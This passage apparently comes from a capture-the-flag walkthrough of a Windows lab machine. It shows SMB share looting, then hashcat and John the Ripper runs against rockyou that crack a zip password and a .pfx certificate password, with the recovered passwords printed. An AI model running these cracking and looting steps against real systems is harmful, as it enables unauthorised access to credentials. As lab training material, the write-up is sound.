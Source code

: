 ```bash
  ..                                  D        0  Mon Oct 25 21:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 17:46:42 2021

\HelpDesk
  .                                   D        0  Mon Oct 25 17:48:42 2021
  ..                                  D        0  Mon Oct 25 17:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 16:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 16:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 16:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 16:57:44 2021

smb: \> prompt off
smb: \> mget *
getting file \Dev\winrm_backup.zip of size 2611 as Dev/winrm_backup.zip (23.0 KiloBytes/sec) (average 23.0 KiloBytes/sec)
getting file \HelpDesk\LAPS.x64.msi of size 1118208 as HelpDesk/LAPS.x64.msi (3627.9 KiloBytes/sec) (average 2656.7 KiloBytes/sec)
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as HelpDesk/LAPS_Datasheet.docx (886.7 KiloBytes/sec) (average 2270.4 KiloBytes/sec)
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as HelpDesk/LAPS_OperationsGuide.docx (963.6 KiloBytes/sec) (average 1548.7 KiloBytes/sec)
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as HelpDesk/LAPS_TechnicalSpecification.docx (507.0 KiloBytes/sec) (average 1438.0 KiloBytes/sec)
```

Before going through the LAPS files, we can try to brute force the zip. Remember to beautify the hash file so that it starts and ends with `$pkzip2$`.
```bash
➜  Dev unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password

➜  Dev /usr/sbin/zip2john winrm_backup.zip > zip.hash
➜  Dev vim zip.hash                                  
➜  Dev hashcat -a0 -m17210 zip.hash /usr/share/wordlists/rockyou.txt
[... snip ...]
$pkzip2$1*2*2*0*965* [... snip ...] *$/pkzip2$:supremelegacy
                                                 
Session..........: hashcat
Status...........: Cracked

➜  Dev unzip -P supremelegacy winrm_backup.zip 
Archive:  winrm_backup.zip
  inflating: legacyy_dev_auth.pfx
```

-------------

### Step 3
Try to crack the certificate (`.pfx`) password.
```bash
➜  Dev /usr/share/john/pfx2john.py legacyy_dev_auth.pfx | john --wordlist=/usr/share/wordlists/rockyou.txt /dev/stdin
[... snip ...]
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:01:06 DONE (2022-03-31 12:18) 0.01499g/s 48458p/s 48458c/s 48458C/s thuglife06..thug211
```
